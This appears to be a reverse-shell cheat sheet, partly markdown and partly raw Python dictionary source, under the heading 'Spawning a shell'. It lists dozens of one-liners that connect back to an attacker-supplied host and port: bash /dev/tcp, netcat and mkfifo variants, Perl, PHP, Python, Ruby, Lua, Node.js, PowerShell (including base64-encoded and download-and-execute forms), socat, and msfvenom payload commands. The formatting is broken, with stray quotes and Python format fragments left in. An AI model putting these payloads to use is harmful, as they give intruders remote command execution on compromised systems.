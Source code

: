 # Spawning a shell

```bash
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f asp > revshell.asp' % (ipaddr, port),
```

```bash
# AWK
awk \'BEGIN {s = "/inet/tcp/0/%s/%d"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}\' /dev/null' % (ipaddr, port),
```

```bash
# Bash - Option 1
bash -i >& /dev/tcp/%s/%d 0>&1' % (ipaddr, port),
```

```bash
# Bash - Option 2
0<&196;exec 196<>/dev/tcp/%s/%d; bash <&196 >&196 2>&196' % (ipaddr, port),
```

```bash
# Bash - Option 3
exec 5<> /dev/tcp/%s/%d; cat <&5 | while read line; do $line 2>&5>&5; done' % (ipaddr, port),
```

```bash
# Java
r = Runtime.getRuntime();p = r.exec(["/bin/sh","-c","exec 5<>/dev/tcp/%s/%d;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor();' % (ipaddr, port),
```

```bash
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=%s LPORT=%d -f raw > revshell.jsp' % (ipaddr, port),
```

```bash
# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f elf > revshell' % (ipaddr, port),
```

```bash
# Lua
lua5.1 -e \'local host,port = \"%s\",%d local socket = require(\"socket\") local tcp = socket.tcp() local io = require(\"io\") tcp:connect(host,port); while true do local cmd,status,partial = tcp:receive() local f = io.popen(cmd,'r') local s = f:read(\"*a\") f:close() tcp:send(s) if status == \"closed\" then break end end tcp:close()\'' % (ipaddr, port),
```

```bash
# Netcat 
nc -e /bin/sh %s %d' % (ipaddr, port),
```

```bash
# Netcat -c
nc -c /bin/sh %s %d' % (ipaddr, port),
```

```bash
# Netcat mkfifo
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %d >/tmp/f' % (ipaddr, port),
```       

```bash
# Netcat mknod
rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc %s %d 1>/tmp/l' % (ipaddr, port),
```

```bash
# Netcat pipe
/bin/sh | nc %s %d' % (ipaddr, port),
```       
       
```bash
# Ncat
ncat %s %d -e /bin/sh' % (ipaddr, port),
```

```bash
# Nodejs
(function(){var net=require("net"),cp=require("child_process"),sh=cp.spawn("/bin/sh",[]);var client=new net.Socket();client.connect(%d,"%s",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();' % (port, ipaddr),
```

```bash
# OSX
msfvenom -p osx/x86/shell_reverse_tcp LHOST=%s LPORT=%d -f macho > revshell.macho' % (ipaddr, port),
```

```bqsh
# Perl - Option 1
perl -e \'use Socket;$i="%s";$p=%d;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'' % (ipaddr, port),
```       

```bash
# Perl - Option 2
perl -MIO -e \'$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"%s:%d");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;\'' % (ipaddr, port),
```

```bash
# Perl windows
perl -MIO -e \'$c=new IO::Socket::INET(PeerAddr,"%s:%d");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;\'' % (ipaddr, port),
```        

```bash
# PHP
php -r \'$sock=fsockopen("%s",%d);exec("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
```

```bash
# PHP
php -r \'$s=fsockopen("%s",%d);shell_exec("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
```

```bash
# PHP
php -r \'$s=fsockopen("%s",%d);`/bin/sh -i <&3 >&3 2>&3`;\'' % (ipaddr, port),
```


'php-4':'php -r \'$s=fsockopen("%s",%d);system("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
        'php-5':'php -r \'$s=fsockopen("%s",%d);popen("/bin/sh -i <&3 >&3 2>&3", "r");\'' % (ipaddr, port),
        'ps-tcp':'powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient(\"%s\",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' % (ipaddr, port),
        'ps-iex':'powershell IEX (New-Object Net.WebClient).DownloadString("http://%s:%d/revshell.ps1") \n\nMake a revshell.ps1 file and put it on your server!' % (ipaddr, port),
        'ps-b64':'powershell -e '+ b64encode(('$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' % (ipaddr, port)).encode('utf16')[2:]).decode(),
        'python':'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"%s\",%d));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'' % (ipaddr, port),
        'python-2':'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("%s",%d));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")\'' % (ipaddr, port),
        'ruby':'ruby -rsocket -e\'f=TCPSocket.open(\"%s\",%d).to_i;exec sprintf(\"/bin/sh -i <&3 >&3 2>&3\",f,f,f)\'' % (ipaddr, port),
        'ruby-2':'ruby -rsocket -e \'exit if fork;c=TCPSocket.new("%s","%d");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end\'' % (ipaddr, port),
        'ruby-windows':'ruby -rsocket -e \'c=TCPSocket.new("%s","%d");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end\'' % (ipaddr, port),
        'socat':'socat exec:\'bash -li\',pty,stderr,setsid,sigint,sane tcp:%s:%d \n\n[+] Catch incoming shell with:\n\nsocat file:`tty`,raw,echo=0 tcp-listen:%d' % (ipaddr, port, port),
        'tclsh':'echo \'set s [socket %s %d];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;\' | tclsh' % (ipaddr, port),
        'telnet':'rm -f /tmp/p; mknod /tmp/p p && telnet %s %d 0/tmp/p' % (ipaddr, port),
        'telnet-mkfifo':'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet %s %d > /tmp/f' % (ipaddr, port),
        'war':'msfvenom -p java/shell_reverse_tcp LHOST=%s LPORT=%d -f war -o revshell.war' % (ipaddr, port),
        'win-bin':'msfvenom -p windows/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f exe > revshell.exe' % (ipaddr, port),
        'xterm':'xterm -display %s:1 \n\n[+] Connect to your shell with:\n\nXnest :1 or xhost +targetip' % (ipaddr)
    }
